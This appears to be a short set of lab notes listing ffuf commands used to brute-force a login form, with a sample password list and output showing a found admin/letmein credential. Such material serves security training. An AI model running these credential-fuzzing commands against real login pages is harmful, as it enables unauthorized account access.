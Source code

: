 
# Commands Used in Lab 3 🛠️

## Basic FFUF Command
```bash
ffuf -request req.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814
```

## Clusterbomb Mode for Username/Password Fuzzing
1. **Modify the Request File:**
   - Replace username and password fields with placeholders `USER` and `PASS`:
     ```
     username=USER&password=PASS
     ```

2. **Create a Custom Password List:**
   - Save a `passwordl3.txt` file with the following passwords:
     ```
     letmein
     password123
     admin2023
     test123
     ```

3. **Run Clusterbomb Mode:**
   ```bash
   ffuf -request l3request.txt -request-proto http -mode clusterbomb    -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:USER    -w ./passwordl3.txt:PASS
   ```

4. **Filter Responses by Size:**
   - Focus on unusual response sizes (e.g., `3378`):
     ```bash
     ffuf -request l3request.txt -request-proto http -mode clusterbomb      -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:USER      -w ./passwordl3.txt:PASS -fs 3256
     ```

---

## Example Output
```plaintext
[Status: 200, Size: 3378, Words: 1270, Lines: 68, Duration: 24ms]
  * USER: admin
  * PASS: letmein
```
